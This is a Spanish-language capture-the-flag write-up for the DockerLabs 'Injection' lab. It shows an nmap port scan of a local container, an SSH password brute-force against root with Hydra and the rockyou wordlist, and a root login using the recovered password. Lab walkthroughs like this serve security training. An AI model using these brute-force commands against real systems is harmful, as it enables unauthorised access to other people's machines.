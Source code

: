 #Injection DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

Empezamos con un escaneo de puertos con nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 20:55 CEST
Nmap scan report for 172.17.0.3
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.18 seconds

```

Vemos solo un servidor ssh con una version de OpenSSH 7.7.
Probamos a hacer un ataque de fuerza bruta con Hydra al usuario "root" para probar y encontramos que la contraseña es "estrella":

```shell
└─$ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3/ -t 5
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).


Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 21:24:39
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344400 login tries (l:1/p:14344400), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.3:22/
[22][ssh] host: 172.17.0.3   login: root   password: estrella
```

Entramos en el servidor con estos datos:

```shell
└─$ ssh root@172.17.0.3
```

```shell
root@f83a9e7115cf:~# whoami
root
```
